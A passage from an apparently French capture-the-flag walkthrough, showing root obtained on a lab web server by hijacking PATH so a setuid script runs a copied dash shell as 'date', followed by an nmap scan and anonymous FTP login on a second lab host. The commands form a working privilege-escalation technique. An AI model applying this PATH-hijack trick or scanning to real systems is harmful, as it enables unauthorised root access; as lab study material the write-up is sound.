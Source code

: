 ```bash
crtstuff.c
--- snip ---
```

Le programme fait un setuid pour nous puis exécute `date` mais sans vérifier le path :

```bash
oscar@WebServer:/home/oscar$ cp /usr/bin/dash date
oscar@WebServer:/home/oscar$ export PATH=.:$PATH
oscar@WebServer:/home/oscar$ ./scripts/current-date
# id
uid=0(root) gid=0(root) groups=0(root),1001(oliver)
# cd /root
# ls
2_flag.txt
# cat 2_flag.txt
 __          __  _ _       _                  
 \ \        / / | | |     | |                 
  \ \  /\  / /__| | |   __| | ___  _ __   ___ 
   \ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \
    \  /\  /  __/ | | | (_| | (_) | | | |  __/
     \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___|
                                              
                                             
Well done! You second flag: 7afc7a60ac389f8d5c6f8f7d0ec645da
Now go to the Database server.
```

## NoDatabaseServer

Qu'est-ce qu'il nous reste ? `172.17.0.3` ?

```bash
# nmap -p- -T5 172.17.0.3
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 172.17.0.3
Host is up (0.000017s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:03 (Unknown)
```

Pas de serveur de base de données en écoute mais il y a ce FTP :

```bash
# ftp 172.17.0.3 
Connected to 172.17.0.3.
220 (vsFTPd 3.0.3)
Name (172.17.0.3:root): anonymous 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 ..
drwxr-xr-x    3 ftp      ftp          4096 Aug 27  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
```